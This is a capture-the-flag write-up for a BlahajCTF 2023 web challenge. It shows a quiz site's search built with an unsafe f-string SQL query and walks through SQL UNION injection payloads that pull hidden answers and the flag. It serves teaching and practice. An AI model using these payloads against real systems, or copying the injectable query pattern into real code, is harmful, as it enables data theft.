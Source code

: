 ```yaml
---
title: Secure Quiz Label Index
date: 2023-12-05
tags:
- web
- author-hartmannsyg
categories: BlahajCTF 2023
---
```


solved by {% person hartmannsyg %}

> Halogen has just released all the questions to the next CyberSecurity test. Blahaj wants to score full marks, and believes the answers and bonus questions are listed somewhere on the site. Help Blahaj get the answers and score full marks on this quiz!

From just a little testing (or just reading the source code provided), we see that our "search" gets injected into a SQL query:
```py
f"SELECT ID, question, setter FROM quizzes WHERE question LIKE '%{query}%' AND visible = 1"
```

We can escape the single quotes `'`, so we can use a SQL UNION injection (where we UNION the SQL query with another query to query what we want) as such:

payload: `' UNION SELECT ID, question, answer from quizzes`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes %' AND visible = 1
```

However this is not a valid SQL query, so I appended yet another query to make it valid:

payload: `' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' AND visible = 1
```

and we get the answer to the "What is the flag?" question to be `blahaj{full_m4rk5_guar4nte3d!!}`